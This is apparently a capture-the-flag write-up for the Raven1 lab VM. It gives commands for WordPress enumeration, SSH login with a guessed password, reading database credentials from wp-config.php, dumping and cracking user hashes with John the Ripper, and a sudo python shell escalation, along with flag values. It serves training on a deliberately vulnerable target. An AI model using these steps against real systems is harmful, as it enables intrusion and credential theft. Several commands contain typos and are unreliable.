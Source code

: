 # Raven1 CTF Pen-Test

**If you're attempting this CTF, I would urge you to _TRY HARDER_ before proceeding as, obviously, there are spoilers below!**

The following vulnerabilities were identified:

1.	Weak password requirements 
  a.	CWE-521 https://cwe.mitre.org/data/definitions/521.html 
  b.	CWE-522 https://cwe.mitre.org/data/definitions/522.html 
  c.	Severity: Critical 

2.	Wordpress – username enumaration
  a.	CVE-2009-2335 https://cve.mitre.org/cgi-bin/cvename.cgi?name=2009-2335 
  b.	Severity: Medium

3.	Wordpress – wp-config.php & sensitive information exposure - externally accessible
  a.	CWE-538 https://cwe.mitre.org/data/definitions/538.html 
  b.	Severity: High
 
 ## Exploitation
 
Nmap identifies Apache Http and by browsing the target IP we can identify that wordpress is being used.
 
We can then enumerate wordpress by:
```
Wpscan --url http://192.168.1.110/wordpress/ --enumerate
```

This provides clues as to which directories to look through.
By using inspect element, on each page we are able to locate **Flag1**

●	**flag1.txt: b9bbcb33e11b80be759c4e844862482d**

We then proceed to explore further based on the information gathered thus far.
Both Michael and Steven have been identified as users. 
A quick integrity check of their passwords reveals that Michael is using his name as his password!
This allows us to SSH into Michael's account and search for flags, and sure enough, **Flag2** is found.

```
ssh micahel@192.168.1.110
username: michael
password: michael
find / -type f -iname flag*.*
```

●	**flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c**


While still logged in as Michael, we navigate to the wp-config.php file.
The file is available and accessible.
Simply opening the file in a text editor reveals the username and password of the MySQL database.
MySQL username: root
MySQL password: R@v3nSecurity

Within the MySQL database we then navigate the various tables and locate **Flag3**

```
Mysql -r root -p
use wordpress;
show tables;
select * from wp_posts;
```
●	**Flag3.txt: afc01ab56b50591e7dccf93122770cd2**


Still within the MySQL database, we can find the password hashes of the users and crack them to gain access to Steven's account.

```
Mysql -r root -p
user wordpress;
show tables;
select * from wp_users;
```

Copy/paste the hashes into wp_password_hashes.txt and use John The Ripper to crack it.

```
John --wordlist=usr/share/wordlists/rockyou.txt wp_password_hashes.txt
```

Steven’s password: pink84

We can now log into Steven's account, spawn a shell, and find **Flag4**
```
Ssh steven@192.168.1.110
Sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
Sudo find / -type f -iname flag*
```

●	**Flag4.txt: 715dea6c055b9fe3337544932f2941ce**

